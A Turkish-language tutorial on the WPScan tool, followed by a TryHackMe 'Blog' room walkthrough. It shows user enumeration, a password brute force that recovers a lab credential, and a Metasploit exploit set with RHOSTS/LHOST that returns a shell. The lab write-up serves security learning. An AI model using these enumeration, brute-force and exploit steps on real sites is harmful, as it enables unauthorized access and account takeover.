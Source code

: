 # Wpscan

<figure><img src="../assets/wpscan_logo.png" alt=""><figcaption></figcaption></figure>

Wpscan açık kaynak kodlu geliştirilmiş ve terminalde çalıştırılan bir araçtır. WordPress kullanan sitelerde tarama yapmak için kullanılır.

WordPress siteleri hakkında temel bilgileri ve varsa güvenlik zafiyetleri hakkında bilgi verir. Kali Lİnux üzerinde yüklü olarak gelir.&#x20;

Biraz Wpscan aracının yapabildiklerinden bahsedelim:

* Tema taraması
* Eklenti taraması
* Brute Force
* Dizin taraması vb.

Eğer başka bir dağıtım kullanıyorsanız aşşağıdaki kod ile Wpscan aracınızı indirebilirsiniz.

```
gem install wpscan
```

Aracımızın sahip olduğu parametreleri görmek için şu komutu kullanıyoruz:

```
wpscan -h
```

<figure><img src="../assets/image (5).png" alt=""><figcaption></figcaption></figure>

Bir web sitesi üzerinde tarama gerçekleştireceğimiz için bir url parametresine ihtiyacımız var. `--url` parametresiyle test edeceğimiz web sitesini parametre olarak veriyoruz.

Ayrıca aracın hangi türde bir tarama yapacağından bahsetmemiz lazım bunun içinde `--enumerate` parametresini kullanıyoruz.

\--enumerate parametresiyle seçenekler vermemiz lazım:

* t : Popüler temaları tarar
* vt : Zafiyetli temaları tarar
* p : Popüler eklentileri tarar
* vp : Zafiyetli eklentileri tarar
* ap : Bütün eklentileri tarar

Verilen --url parametresine göre popüler temaları tarar:

```
wpscan --url <ip/url> --enumerate t
```

\-vt parametresiyle zafiyetli temaları tarar:

```
wpscan --url <ip/url> --enumerate vt
```

\-p parametresiyle popüler eklentileri tarar:

```
wpscan --url <ip/url> --enumerate p
```

\-vp parametresiyle zafiyetli eklentileri tarar:

```
wpscan --url <ip/url> --enumerate vp
```

\-at parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate at
```

\-ap parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate ap
```

Wpscan aracımızı daha iyi tanımak ve kullanabilmek için [Try Hack Me Blog](https://tryhackme.com/r/room/blog) odasında kullanacağım. Öncelikle web sitemizi çalıştırıyoruz. Öncelikle Try Hack Me tarafından bana verilen Ip adresini /etc/hosts altındaki dosyaya ekliyorum.

<figure><img src="../assets/image (48).png" alt=""><figcaption></figcaption></figure>

Sonrasında tarayıcımdan blog.thm adresine gidiyorum. Ve sitede gezinirken en alt tarafta sitenin WordPress ile geliştirildiğine dair bir yazı yer alıyor.

<figure><img src="../assets/image (49).png" alt=""><figcaption></figcaption></figure>

Wpscan aracımız ile site üzerinde tarama yapabiliriz. Öncelikle zafiyetli eklentiler için bir tarama yapalım bunun için şu komutu yazıyoruz:

```
wpscan --url blog.thm --enumerate vp
```

Bu sorgunun sonucu olarak yararlı bir şey çıkmıyor. Var olan kullanıcıları listeleyeim ve sonrasında brute force deneyelim.&#x20;

```
wpscan --url blog.thm --enumerate u
```

Bu işlemden sonra karşımıza şöyle bir sonuç çıkıyor.

<figure><img src="../assets/image (50).png" alt=""><figcaption></figcaption></figure>

2 tane kullanıcımız var Karen Wheeler ve Bill Joel. Bunların kullanıcı adları sırasıyla kwhell ve bjoel. Kullanıcı adlarını bulduğumuza göre login ekranına brute force deneyelim. Öncelikle kwhell kullanıcısı için bir komut yazacağım. Eğer şifreyi bulamazsak bjoel kullanıcısı içinde bir komut yazacağım.&#x20;

```
wpscan --url blog.thm --usernames kwheel --passwords <sifre.txt>
```

Bu işlem sonucunda geçerli bir şifre elde ediyoruz.

<figure><img src="../assets/image (51).png" alt=""><figcaption></figcaption></figure>

`kwheel - cutiepie1` bu bilgiler ile giriş yapalım ve bakalım sonrasında neler yapabiliyoruz.&#x20;

<figure><img src="../assets/image (53).png" alt=""><figcaption></figcaption></figure>

Giriş yaptıktan sonra karşımıza ektra bir şey çıkmıyor. Web sitesi özelinde temel işle yapabiliyoruz. Bizim sunucuda olan dosyalarla işimiz var. WordPress'in eski sürümlerinde zafiyet olabilir ve biz bu zafiyeti kullanabiliriz. Zafiyetleri görmek için yukarıda yaptığımız `wpscan --url blog.thm --enumerate vp` komutundan biraz daha farklı bir şey yazacağız. Yukarıdaki gibi bir komut yazarsak Wpscan bize zafiyetleri göstermiyor.&#x20;

Bize zafiyetleri göstermesini istiyorsak [Wpscan](https://wpscan.com/profile/) adresinden bize sağlanan token değerini parametre olarak vermemiz gerekiyor.&#x20;

```
wpscan --url blog.thm --enumerate vp --api-token <token>
```

Bu kod sonrasında sistemden şöyle bir çıktı almamız sağlar.&#x20;

<figure><img src="../assets/image (54).png" alt=""><figcaption></figcaption></figure>

Çıktı olarak 70 tane zafiyetin olduğunu gösteriyor. WordPress sürümünü de öğrendikten sonra msfconsole üzerinden zafiyet araması yapabiliriz.

<figure><img src="../assets/image (55).png" alt=""><figcaption></figcaption></figure>

Karşımızı bu sonuçlar çıkıyor. `use 0` diyerek payloadımı seçiyorum. Sonrasında payloadın bize sunduğu ayarları görmek için `show options` diyorum.&#x20;

<figure><img src="../assets/image (56).png" alt=""><figcaption></figcaption></figure>

Sırasıyla şu ayarlamaları yapıyorum.&#x20;

<pre><code>set PASSWORD cutiepie1
<strong>set RHOSTS 10.10.154.220 // THM odasının çalıştığı IP adresini veriyoruz
</strong>set USERNAME kwheel
set LHOST 10.6.63.226  // THM odasına bağlandığımız IP adresi
run
</code></pre>

Run komutuyla birlikte exploitimiz çalışmaya başlıyor. Buradaki amacımız var olan bir zafiyeti sömürerek shell almaya çalışıyoruz.

<figure><img src="../assets/image (57).png" alt=""><figcaption></figcaption></figure>

Ve evet shell aldık, sistem üzerinde komutlar çalıştırabiliyoruz.&#x20;
